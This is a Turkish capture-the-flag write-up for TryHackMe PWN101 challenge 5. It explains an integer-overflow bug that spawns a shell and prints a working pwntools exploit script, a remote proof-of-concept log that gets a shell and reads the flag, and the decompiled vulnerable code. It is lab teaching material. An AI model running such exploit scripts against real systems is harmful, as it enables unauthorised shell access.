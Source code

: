# TryHackMe PWN101

## Challenge 5

### Dosya

Dosyayı açtığımızda bizden 2 sayı istemektedir ve bu sayıların toplamlarını bize vermektedir.

Ancak dosyaya negatif sayı verdiğimizde bize uyarı verip programı sonlandırmaktadır.

Programı decompile ettiğimizde ise sayıların toplamının negatif olması durumunda shell alacağımızı görebiliyoruz.

```c
puts("-------=[ BAD INTEGERS ]=-------");
puts("|-< Enter two numbers to add >-|\n");
printf("]>> ");
__isoc99_scanf(data.0000216f, &var_1ch);
printf("]>> ");
__isoc99_scanf(data.0000216f, (int64_t)&var_1ch + 4);
var_14h = var_1ch._4_4_ + (int32_t)var_1ch;
if (((int32_t)var_1ch < 0) || (var_1ch._4_4_ < 0)) {
    printf("\n[o.O] Hmmm... that was a Good try!\n", (int32_t)var_1ch, var_1ch._4_4_, var_14h);
else if (var_14h < 0) {
    printf("\n[*] C: %d", var_14h);
    puts("\n[*] Popped Shell\n[*] Switching to interactive mode");
    system("/bin/sh");
}
```

### Exploit

Herhangi bir şekilde negatif sayı giremesekte, eğer integer overflow yaparsak sayılar negatif olacaktır.

Bunun için önce  2^31 - 1 sayısını gireceğiz, daha sonra pozitif herhangi bir sayı girdiğimizde integer overflow olmuş olacak ve sayıların toplamı negatif olacaktır.

### POC

```bash
$ ./exploit.py remote 10.10.37.118 9005
[+] Opening connection to 10.10.37.118 on port 9005: Done
[*] Sending Payload.
[*] Getting Flag
[+] Flag achieved!: THM{[REDACTED]}
[+] Getting Shell.
[*] Switching to interactive mode
$ id
uid=1006(pwn105) gid=1006(pwn105) groups=1006(pwn105)
```

### Python Script

```python
#!/bin/env python3

from pwn import *
import argparse

parser = argparse.ArgumentParser(description='TryHackMe PWN101 Challange 5 Exploit')

subparsers = parser.add_subparsers(dest='mode', help='Select mode: remote or local')

remote_parser = subparsers.add_parser('remote', help='Remote mode: Provide IP address and port')
remote_parser.add_argument('ip', help='IP address')
remote_parser.add_argument('port', help='Port number')

local_parser = subparsers.add_parser('local', help='Local mode: Provide file path')
local_parser.add_argument('file', help='File path')

args = parser.parse_args()

mode = args.mode

if mode == 'remote':
    ip = args.ip
    port = args.port

    p = remote(ip, port)

elif mode == 'local':
    file = args.file

    context.binary = binary = ELF(file)
    p = process()
    
else:
    parser.error('Please select remote or local mode.')
    

p.recv()

log.info("Sending Payload.")
p.sendline(b"2147483647")
p.recv()
p.sendline(b"1")
p.recvuntil(b"interactive mode\n")

log.info("Getting Flag")
p.sendline(b"cat flag.txt")
flag = p.recv().decode()

log.success("Flag achieved!: " + flag)

log.success("Getting Shell.")
p.interactive()
```
